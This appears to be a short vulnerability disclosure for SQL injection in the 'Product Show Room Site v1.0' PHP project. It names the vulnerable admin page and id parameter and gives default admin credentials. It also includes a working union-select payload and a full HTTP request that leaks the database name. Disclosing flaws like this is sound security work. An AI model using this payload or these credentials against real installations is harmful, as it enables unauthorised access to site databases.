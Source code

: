 # Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/admin/categories/manage_field_order.php?id=

Vulnerability location: /psrs/admin/categories/manage_field_order.php?id=, id

Current database name: psrs_db ,length is 7

[+] Payload: /psrs/admin/categories/manage_field_order.php?id=-1%27%20union%20select%201,2,database(),4,5,6,7,8--+ // Leak place ---> id

```sql
GET /psrs/admin/categories/manage_field_order.php?id=-1%27%20union%20select%201,2,database(),4,5,6,7,8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171826607-34cef476-400f-489f-ae58-0a2821d030f7.png)

![image](https://user-images.githubusercontent.com/54017627/171826542-dc94d67d-b293-43cb-b54c-370d6009e29f.png)
